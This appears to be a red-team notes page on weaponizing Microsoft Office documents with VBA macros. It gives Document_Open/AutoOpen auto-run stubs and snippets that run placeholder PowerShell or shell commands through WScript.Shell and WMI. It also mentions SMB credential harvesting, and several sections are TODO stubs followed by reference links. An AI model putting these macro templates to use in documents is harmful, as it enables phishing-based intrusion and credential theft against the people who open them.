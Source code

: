 # Microsoft Office Macros Template

## 01 - Base

Base template when macro is being executed.

```vbscript
Sub Document_Open()
    Payload
End Sub

Sub AutoOpen()
    Payload
End Sub
```

## 02 - Command Execution

Command execution.

```vbscript
Sub Payload()
    ' VBA Macro has a 50 characters String
    ' Limit so you have to concatenate it
    Dim Str As String
    Str = Str + ""
    CreateObject("WScript.Shell").Run Str
    ' CreateObject("WScript.Shell").Run "cmd"
End Sub
```

PowerShell one-liners, Web-Drive By, harvest SMB credentials, etc.

```vbscript
Public Function Payload() As Variant
    Dim WindowScriptHost As Object
    Set WindowScriptHost = VBA.CreateObject("WScript.Shell")
    Dim waitOnReturn As Boolean: waitOnReturn = True
    Dim windowStyle As Integer: windowStyle = 7
    WindowScriptHost.Run "<powershell_payload>", windowStyle, waitOnReturn
End Function
```

Using WMI method to execute the process.

```vbscript
Sub WMI_Execution()
    Set Wmi = GetObject("winmgmts:\\.\root\cimv2")
    Set Process = Wmi.Get("Win32_Process")
    Process.Create("<commands>")
End Sub
```

## 04 - Payload Inside Document

TODO: Fill this info

Using **comments** in the **Properties** to include malware URL link to execute as shell via `rundll32.exe`

- [Malicious DLL Infection Through Metasploit SMB Exploit](https://www.drchaos.com/post/malicious-dll-infection-thru-metasploit-smb-exploit)

- [The Art of Creating backdoors and Exploits with Metasploit (Duplicate)](https://www.drchaos.com/post/the-art-of-creating-backdoors-and-exploits-with-metasploit)

- [Bank Security: MS Excel Weaponization Techniques](https://bank-security.medium.com/ms-excel-weaponization-techniques-79ac51610bf5)

## 05 - Harvest SMB Credentials

TODO: Demonstrate as many examples to fetch credentials using SMB relay via Responder

Refer to **Client-Side Attacks** subsection under [[02 - Responder|Responder]].

Refer to **Client-Side Attacks** subsection under [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xD - Client-Side Attacks/Authentication Relay/Metasploit|Metasploit]].

- [Securify: Living off the Land Stealing NetNTLM Hashes](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes/)

- [n00py: Phishing with Maldocs](https://www.n00py.io/2017/04/phishing-with-maldocs/)

## 02 - HTA

TODO: Fill this info


---
## References

### mgeeky

- [mgeeky: Backdooring Office Structures. Part 1: The Oldschool](https://mgeeky.tech/backdooring-office-structures-part-1-oldschool/)

- [mgeeky:  Backdooring Office Structures. Part 2: Payload Crumbs In Custom Parts ](https://mgeeky.tech/payload-crumbs-in-custom-parts/)

### Offensive Security

- [Offensive Security: Weaponizing and Abusing Hidden Functionalities Contained in Office Document Properties](https://www.offsec.com/blog/macro-weaponization/)

### Denwp

- [Denwp: From Base64 to Reverse Shell - Unpacking Malware from a Word Document](https://denwp.com/macro-word-document/)

### Sevagas

- [sevagas: Advanced_Initial_access_in_2024_OffensiveX](https://github.com/sevagas/Advanced_Initial_access_in_2024_OffensiveX/blob/main/breach_the_gates_extended.pdf)

### War Room

- [War Room: Metasploit Module of the Month Web Delivery](https://warroom.rsmus.com/metasploit-module-of-the-month-web_delivery/)

### nicholasmckinney

- [nicholasmckinney: Shellcode Execution Via HTA](https://gist.github.com/nicholasmckinney/e90e47e0545430656bdcca5544d6b4fc)